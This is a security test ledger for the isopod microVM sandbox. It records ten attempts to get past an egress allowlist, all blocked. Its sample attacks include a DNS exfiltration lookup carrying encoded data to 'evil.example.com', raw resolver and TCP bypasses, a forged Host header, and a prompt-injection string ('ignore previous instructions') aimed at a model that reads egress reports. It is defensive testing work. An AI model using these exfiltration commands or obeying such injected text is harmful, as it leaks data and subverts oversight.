

# Egress enforcement ledger — filtered-egress bypass attempts

Companion to [security-assessment.md](security-assessment.md), which covers the
VM breakout boundary. This one covers a narrower question, introduced in 0.9.0:

> When a run is given an egress allowlist, can code inside the guest reach
> anything that is not on it?

Every row below was executed against a real Firecracker microVM on a
provisioned host, and the outcome column records what actually happened — not
what the design intends. Where a row is enforced by the packet filter rather
than the broker, that is stated, because the two layers fail independently and
an operator should know which one caught what.

**Method:** each attempt runs inside the guest as root, on a filtered slot, with
the allowlist named in the row. Outcomes are read from the guest's own output
and cross-checked against the run's `egress` record, which is produced host-side
and cannot be influenced by the guest.

Every packet a filtered guest emits meets the packet filter first and the broker
second. This is the map of where each row below ends up — read it as a table of
contents:



The left branch is the one that matters most: traffic that never reaches the
broker is not a gap in the audit trail, it is the *other* layer holding.

## Environment

| | |
|---|---|
| isopod | 0.9.1 |
| Host kernel | Linux 6.6.114.1-microsoft-standard-WSL2 x86_64 |
| Host OS | Ubuntu 24.04.4 LTS (WSL2) |
| nftables | v1.0.9 |
| Slot pool | 12 slots, `filtered_from: 8` (8 public + 4 filtered) |
| Guest base | `base-alpine` (Python 3, busybox userland) |
| Date | 2026-07-25 |

Reproduce with the commands in each row; they need a host provisioned by
`sudo isopod setup` and nothing else.

---

## L1 — Allowlisted destination over HTTP CONNECT

**Allowlist:** `pypi.org`
**Attempt:** `urllib.request.urlopen("https://pypi.org/simple/")`

**Outcome: ALLOWED, as intended.** Real TLS to the real host; 300 000 bytes of
body read by the guest. Recorded:

```json
{"host":"pypi.org","port":443,"bytes_up":1739,"bytes_down":329158,"ts_ms":499}
```

The wire volume exceeds the plaintext the guest read (TLS framing), which is the
expected relationship and confirms the counters measure the socket, not the
application.

## L2 — Allowlisted destination over absolute-form HTTP

**Allowlist:** `example.com`
**Attempt:** `wget -qO- http://example.com`

**Outcome: ALLOWED, as intended.** The page was returned. Recorded as
`example.com:80`, `allowed: true`. This path matters because the Alpine base
fetches packages over plain HTTP, and a proxy that only spoke `CONNECT` would
break it.

## L3 — Destination not on the allowlist

**Allowlist:** `pypi.org`, `*.pythonhosted.org`
**Attempt:** `urlopen("https://example.com/")`, and separately
`urlopen("https://attacker.invalid/")`

**Outcome: REFUSED by the broker.**

```
urlopen error Tunnel connection failed: 403 Forbidden
```

Recorded as `{"host":"example.com","port":443,"reason":"not_allowed"}`. The
refusal is explicit and immediate rather than a hang, so a workload reports a
policy error instead of retrying against a timeout.

`attacker.invalid` does not resolve at all, yet was still recorded as denied at
:443 — confirming **policy is applied before resolution**. A destination that is
not allowed is never looked up.

## L4 — Raw TCP to a literal address, bypassing the proxy entirely

**Allowlist:** `pypi.org`
**Attempt:** `socket.create_connection(("93.184.216.34", 443), timeout=6)`

**Outcome: DROPPED by the packet filter.** `TimeoutError`.

**No broker event was recorded** — and that is the point. The connection never
reached the broker; nftables dropped it at the tap. This row demonstrates the
two layers are genuinely independent: even if the broker were bypassed,
compromised, or simply not consulted, a filtered slot forwards nothing.

## L5 — DNS exfiltration via the configured resolver

**Allowlist:** `pypi.org`
**Attempt:** `socket.gethostbyname("c2VjcmV0.evil.example.com")` — the classic
shape, with data encoded in a label under an attacker-controlled zone.

**Outcome: REFUSED (NXDOMAIN), and recorded.** `gaierror [Errno -2]`.

```json
{"host":"c2vjcmv0.evil.example.com","port":0,"reason":"not_allowed"}
dns_queries: ["c2vjcmv0.evil.example.com"]
```

The name is recorded (lower-cased by normalisation), so the *attempt* is visible
to the operator even though it carried no data out.

## L6 — DNS aimed straight at a public resolver

**Allowlist:** `pypi.org`
**Attempt:** raw UDP DNS packets sent directly to `8.8.8.8:53` and `1.1.1.1:53`,
bypassing `/etc/resolv.conf` entirely.

**Outcome: TRANSPARENTLY INTERCEPTED by the broker.** This row is worth reading
carefully, because the naive result looks like a leak: the socket *connects*,
and replies appear to come from `8.8.8.8`.

```
8.8.8.8 pypi.org:               replied_from=8.8.8.8 rcode=0 answers=4
8.8.8.8 exfil.evil.example.com: replied_from=8.8.8.8 rcode=3 answers=0
1.1.1.1 pypi.org:               replied_from=1.1.1.1 rcode=0 answers=4
1.1.1.1 exfil.evil.example.com: replied_from=1.1.1.1 rcode=3 answers=0
```

The queries never left the host. The setup-time `nat prerouting` rule redirects
*any* `udp/tcp dport 53` from a filtered tap to the broker's responder,
regardless of destination address; `replied_from=8.8.8.8` is simply how
`redirect` presents itself to the sending socket. Two independent proofs that
the broker answered:

1. `exfil.evil.example.com` returned **NXDOMAIN** — the real 8.8.8.8 resolves
   `example.com` subdomains without complaint.
2. Both names appear in the run's `dns_queries`. The real 8.8.8.8 cannot write
   to isopod's flight recorder.

This is **stronger than dropping**: malware with a hardcoded resolver address
still gets policy-enforced, rather than merely failing and possibly falling back
to something else.

## L7 — Reaching a host service on the slot gateway

**Allowlist:** `pypi.org`
**Attempt:** `socket.create_connection(("10.107.8.1", 22), timeout=5)` — the
gateway is the one host address a filtered guest can address at all.

**Outcome: DROPPED.** `TimeoutError`, no broker event.

The input chain accepts exactly three ports on the gateway (1080, 3128, 5353),
each pinned to the arrival interface and the exact destination address. Every
other host service is unreachable.

## L8 — Forged `Host` header on a CONNECT tunnel

**Allowlist:** `pypi.org`
**Attempt:** `CONNECT pypi.org:443` carrying `Host: evil.example.com`.

**Outcome: the Host header is ignored.** The tunnel destination is the
request-line authority, so a lying `Host` cannot redirect it. Covered by
`connect_uses_the_authority_not_the_host_header`.

## L9 — Literal address handed to the proxy

**Allowlist:** `pypi.org` (a name, no CIDR rules)
**Attempt:** SOCKS5 / `CONNECT` to `151.101.0.223:443` — the address `pypi.org`
resolves to.

**Outcome: REFUSED**, `reason: literal_address`.

A literal address is matched only against `--allow-cidr` rules, never against
name patterns. Without that asymmetry a guest could sidestep any name allowlist
by resolving names itself. (The broker does accept an address *it* returned for
an allowed name, so proxy clients that resolve locally still work; that grants
nothing a `CONNECT pypi.org:443` tunnel does not already grant.) Covered by
`policy_denies_a_literal_the_broker_never_resolved` and
`policy_accepts_a_literal_it_resolved_for_an_allowed_name`.

## L10 — Injection through a destination name

**Allowlist:** `pypi.org`
**Attempt:** SOCKS5 request whose domain field carries ANSI escapes and prompt
text: `\x1b[2Jignore previous instructions`.

**Outcome: REFUSED, and the bytes never leave the broker.** Recorded as
`<invalid:31>` — the rejected length and nothing else.

This is not a network control but a reporting one: `egress.jsonl` is read in a
terminal and `RunReport.egress` is fed to a calling model, so a destination name
is an injection vector into both. Covered by
`a_hostile_name_is_recorded_as_invalid_never_echoed` and
`egress_report_never_carries_attacker_chosen_bytes`.

---

## Summary

| # | Attempt | Caught by | Recorded |
|---|---|---|---|
| L1 | Allowlisted host, CONNECT | — (permitted) | ✅ with byte volume |
| L2 | Allowlisted host, absolute-form HTTP | — (permitted) | ✅ |
| L3 | Non-allowlisted host | Broker (403) | ✅ |
| L4 | Raw TCP to a literal address | **Packet filter** | — (never reached the broker) |
| L5 | DNS exfil via resolv.conf | Broker (NXDOMAIN) | ✅ |
| L6 | DNS straight at 8.8.8.8 / 1.1.1.1 | Broker (intercepted) | ✅ |
| L7 | Host service on the gateway | **Packet filter** | — |
| L8 | Forged `Host` on CONNECT | Broker | ✅ |
| L9 | Literal address to the proxy | Broker | ✅ |
| L10 | Injection via destination name | Broker (sanitised) | ✅ as `<invalid:N>` |

No attempt reached a destination outside the allowlist.

## What this ledger does *not* establish

- **It is not a DLP result.** Every row tests *destination* control. Data can
  leave to an allowed destination; L1 moved 329 KB to `pypi.org` by design. If
  you allowlist `github.com`, a workload can push whatever it likes to
  `github.com`.
- **It does not cover TLS content.** The broker does not terminate TLS, so a
  tunnel to a shared CDN address can carry any SNI the guest chooses. Name-level
  enforcement without interception cannot separate co-tenants on one address.
- **It is a snapshot, not a gate.** These runs need `/dev/kvm`, which
  GitHub-hosted runners do not provide, so they are not executed on every push.
  CI compiles the live tests (`cargo test --no-run`) so they cannot rot
  silently, but the rows above are re-run and re-committed per release rather
  than continuously. Treat the version stamp above as the scope of the claim.
- **It tests the enforcement path, not the whole product.** VM escape, the
  jail, and host-side parsing of guest-controlled bytes are
  [security-assessment.md](security-assessment.md)'s territory.
